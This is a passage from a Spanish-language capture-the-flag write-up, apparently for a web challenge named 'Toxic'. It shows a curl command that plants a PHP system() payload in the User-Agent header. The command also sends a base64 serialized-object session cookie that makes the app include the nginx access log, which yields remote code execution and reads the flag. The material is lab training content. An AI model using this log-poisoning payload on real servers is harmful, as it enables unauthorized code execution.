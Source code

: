 ```

```
206.189.29.104 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0 bin
```

Y el resultado fue:

![](/assets/img/toxic/5.png)

Ahi mismo podemos ver la flag, y como ultimo debemos de hacerle un cat, en esta caso usare curl para que vean tambien como es:

```
url -i -v <URL> -A "<?php system('cat /flag_uDwMK'); ?>" -b "PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo="
```

(el nombre de la flag es diferente por que tuve que hace otra instancia)

Y listo, asi conseguimos la flag:

![](/assets/img/toxic/6.png)

Joder, esto si es RCE  🚬

Eso ha sido todo, gracias por leer ❤

![](/assets/img/toxic/waifu.gif)
